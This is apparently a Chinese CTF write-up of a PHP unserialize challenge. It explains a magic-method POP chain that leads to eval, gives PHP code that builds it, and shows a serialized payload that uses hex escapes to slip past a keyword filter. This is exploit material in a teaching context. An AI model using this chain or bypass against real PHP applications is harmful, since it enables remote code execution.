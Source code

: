 ```php
    if(!preg_match('/like/i',$_GET['zypc'])){
        unserialize($_GET['zypc']);
    }
    else{
      echo("nonono");
    }
}
```

观察代码，危险函数eval()在Hi类的__invoke()魔法函数中.

**__invoke**(**)**//当尝试将对象调用为函数时触发.

在C_U_Again类的__get()中有return $function(),如果\$function值为Hi类,它会使__invoke()触发.

__get()//用于从不可访问的属性读取数据或者不存在这个键都会调用此方法

在Hello类的__toString()中return \$this->like->that;而\$like中没有that,会触发__get()

__toString() //把类当作字符串使用时触发

在GoodBye类的__wakeup()中有die($this->abc); 将abc当作字符串输出了,如果将abc的值换为Hello类就会触发__tostring().如果将die换为echo我想也能触发

刚好__wakeup()函数为反序列化的入口,所以pop链子为

`Hi <- C_U_Again <- Hello <- GoodBye`

但是在__wakeup()中会执行miao(),会将abc的值覆盖为欢迎参加挑战,无法反序列化Hello,所以要在执行miao()之后再将abc的值更改为Hello类.

这里需要利用 `$this->ZYPC = $this->XUPT;`

将ZYPC设为abc的地址,将XUPT设为Hello类

这样就可以将Hello传递给abc.完成链子.

pop链:

```
$a = new Hello();
$b = new GoodBye();
$c = new C_U_Again();
$d = new Hi();

$c->C_U = $d;
$a->like = $c;
//将Hello传递给abc
$b->ZYPC = &$b->abc;//取abc地址
$b->XUPT = $a;
echo serialize($b);
```

构造pop链的部分结束了,在反序列化前会用正则过滤like

这里选择用十六进制绕过字符过滤

```
O:7:"GoodBye":3:{s:4:"XUPT";O:5:"Hello":1:{s:4:"like";O:9:"C_U_Again":1:{s:3:"C_U";O:2:"Hi":2:{s:7:"welcome";N;s:4:"cmd2";N;}}}s:4:"ZYPC";N;s:3:"abc";R:7;}
可以写成
O:7:"GoodBye":3:{s:4:"XUPT";O:5:"Hello":1:{S:4:"\6c\69\6b\65";O:9:"C_U_Again":1:{s:3:"C_U";O:2:"Hi":2:{s:7:"welcome";N;s:4:"cmd2";N;}}}s:4:"ZYPC";N;s:3:"abc";R:7;}
```
